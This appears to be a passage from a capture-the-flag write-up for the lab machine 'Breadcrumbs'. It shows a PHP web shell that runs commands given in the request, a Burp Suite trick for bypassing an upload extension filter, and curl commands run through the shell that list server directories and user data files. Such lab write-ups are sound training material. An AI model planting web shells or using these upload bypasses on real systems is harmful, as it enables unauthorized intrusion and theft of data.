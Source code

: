 In this way we gain access as the user paul, no we can try to upload our malicious php file
``` bash
# create the php file
<?php
echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>

# bypass the .zip restriction / the server convert our malicious.php file to malicious.zip
# In burpsuite we can change this .zip to .php
# check in the url -> 10.10.10.228/portal/uploads/
```

Now that we upload our php file we can execute commands
``` bash

10.10.10.228/portal/uploads/malicious.php?cmd=whoami
breadcrumbs\www-data
```

 Enumerating the system

``` bash
❯ curl -s 'http://10.10.10.228/portal/uploads/malicious.php' --data-urlencode 'cmd=dir C:\Users\www-data\Desktop\xampp\htdocs\portal\'
<pre> Volume in drive C has no label.
 Volume Serial Number is 7C07-CD3A

 Directory of C:\Users\www-data\Desktop\xampp\htdocs\portal

02/08/2021  06:37 AM    <DIR>          .
02/08/2021  06:37 AM    <DIR>          ..
02/08/2021  06:37 AM    <DIR>          assets
02/01/2021  11:40 PM             3,956 authController.php
02/01/2021  10:40 PM               114 composer.json
11/28/2020  01:55 AM             6,140 composer.lock
12/09/2020  04:30 PM               534 cookie.php
02/08/2021  06:37 AM    <DIR>          db
02/08/2021  06:37 AM    <DIR>          includes
02/01/2021  07:59 AM             3,757 index.php
02/01/2021  02:57 AM             2,707 login.php
01/16/2021  02:47 PM               694 logout.php
02/08/2021  06:37 AM    <DIR>          php
02/08/2021  06:37 AM    <DIR>          pizzaDeliveryUserData
02/01/2021  02:58 AM             2,934 signup.php
09/27/2023  09:50 PM    <DIR>          uploads
02/08/2021  06:37 AM    <DIR>          vendor
               8 File(s)         20,836 bytes
               9 Dir(s)   6,544,650,240 bytes free

❯ curl -s 'http://10.10.10.228/portal/uploads/malicious.php' --data-urlencode 'cmd=dir C:\Users\www-data\Desktop\xampp\htdocs\portal\pizzaDeliveryUserData'
<pre> Volume in drive C has no label.
 Volume Serial Number is 7C07-CD3A

 Directory of C:\Users\www-data\Desktop\xampp\htdocs\portal\pizzaDeliveryUserData

02/08/2021  06:37 AM    <DIR>          .
02/08/2021  06:37 AM    <DIR>          ..
11/28/2020  02:48 AM               170 alex.disabled
11/28/2020  02:48 AM               170 emma.disabled
11/28/2020  02:48 AM               170 jack.disabled
11/28/2020  02:48 AM               170 john.disabled
01/17/2021  04:11 PM               192 juliette.json
11/28/2020  02:48 AM               170 lucas.disabled
11/28/2020  02:48 AM               170 olivia.disabled
11/28/2020  02:48 AM               170 paul.disabled
```